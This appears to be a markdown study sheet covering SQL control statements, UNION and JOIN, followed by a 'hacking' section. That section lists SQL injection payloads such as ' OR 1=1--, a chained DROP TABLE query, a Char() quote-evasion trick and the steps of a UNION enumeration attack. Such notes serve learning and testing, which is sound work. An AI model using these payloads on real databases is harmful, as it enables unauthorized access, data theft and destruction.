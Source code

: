 ## Data Control Language (DCL)
Data control language is used to create privileges to allow users to access and manipulate the database.
* GRANT - allow users access privileges to the database
* REVOKE - withdraw users access privileges given by using the GRANT command

*This statement gives all users of the operator-role the privilege to create new tables in the database.*
GRANT CREATE TABLE
TO operator;

*Grant the usergroup "UnauthorizedUser" the right to alter tables*
`GRANT ALTER TABLE TO UnauthorizedUser;`

## special chars
* `/* */`  are inline comments
* `-- , #` are line comments
* `;` allows query chaining `SELECT * FROM users; DROP TABLE users;`
* `',+,||`	 allows string concatenation
* `Char()`	 strings without quotes => `SELECT * FROM users WHERE name = '+char(27) OR 1=1`

## Union
The Union operator is used, to combine the results of two or more SELECT Statements. For example getting all cities from two different tables (customers and suppliers, row has to be equal)
`SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;`

## Join
Combine rows from two or more tables
`SELECT user_data.id, user_data_tan.info FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;`

# hacking
## start first with
Try to only put ' or “ in
try ``'`` in fields to check how it behaves

# if the first step works go with injection

``select * from users where email='$email' and password='pw'``
//ends with comment (``--``) to ignore rest  
``select * from users where email=' ' OR 1=1--' and password='pw' ``
2) ' OR 1=1--
3) ' OR 1=1; --
4) ' OR 1=1;#
5) ' OR '1'='1'
6) numeric: `2 OR 1=1`
## Union attack
* if you have SELECT * From Users where '{username}'
* and you see the injection is working with `' OR 1=1 --` and `' OR 1=2 --` then try:
* to get how many columns there are in the table (users)
* Find out the table headlines => this way you can print out the users later
* also you can enumerate other tables with the union statement and call afterwards their data
